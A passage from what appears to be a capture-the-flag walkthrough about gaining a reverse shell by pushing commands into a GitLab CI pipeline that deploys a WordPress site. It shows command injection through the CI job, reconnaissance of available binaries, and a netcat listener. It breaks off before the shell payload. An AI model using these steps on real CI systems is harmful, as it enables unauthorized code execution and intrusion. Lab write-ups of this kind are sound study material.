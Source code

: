 Set the origin in the git repo to this new config entry:

<pre><code class="bash">git remote remove origin
git remote add origin
git@gitserv:rings-of-powder/wordpress.flag.net.internal.git
</code></pre>

Let's find a reverse shell. First find out what is running at the gitlab-runner server. For this you can use an html file.
The last line rsync command copies a created html file automatically to the root of the web server.
So for that to do enter this before the rsync command:

<pre><code class="bash">echo $(ls /usr/bin) > test.html
</code></pre>

Push it and request the html file from the server:

<pre><code class="bash">curl -L http://wordpress.flag.net.internal:80/test.html
</code></pre>

This delivers:

<pre><code class="bash">awk basename bc beep blkdiscard bunzip2 bzcat bzip2 c_rehash cal
chvt cksum clear cmp comm cpio crontab cryptpw cut dc deallocvt
diff dirname docker-machine dos2unix du dumb-init eject env expand
expr factor fallocate find findssl.sh flock fold free fuser
getconf getent git git-lfs git-receive-pack git-shell git-upload-
archive git-upload-pack gitlab-ci-multi-runner gitlab-runner
groups hd head hexdump hostid iconv id install ipcrm ipcs killall
last ldd less logger lsof lsusb lzcat lzma lzopcat md5sum mesg
microcom mkfifo mkpasswd <b>nc</b> nl nmeter nohup nproc nsenter nslookup
od openssl openvt passwd paste pgrep pkill pmap posixtz printf
pscan pstree pwdx readlink realpath renice reset resize rsync
rsync-ssl scanelf scp seq setkeycodes setsid sftp sha1sum
sha256sum sha3sum sha512sum showkey shred shuf sort split ssh ssh-
add ssh-agent ssh-copy-id ssh-keygen ssh-keyscan ssh-pkcs11-helper
ssl_client strings sum tac tail tee test time timeout top tr
traceroute traceroute6 truncate tty ttysize udhcpc6 unexpand uniq
unix2dos unlink unlzma unlzop unshare unxz unzip uptime uudecode
uuencode vi vlock volname wc wget which who whoami whois xargs
xmlwf xxd xzcat yes
</code></pre>

And there you can find *nc*, but this is not a netcat which can do `-e /bin/bash` so you have to use
backpipes or other methods to pipe in a shell. An example can be found <a href=" https://spencerdodd.github.io/2017/02/21/reverse_shell_without_nce/">here</a>.

Now you can push a reverse shell in the `.gitlab-ci.yml` file.
Start `tmux`, set up two panes with the shortcut Ctrl+B+" and start a netcat listener:
<pre><code class="bash">nc -nlvp 4444
</code></pre>

Switch to the other pane using tmux: Ctrl+B+o

Change the content to the following using `vim .gitlab-ci.yml`:
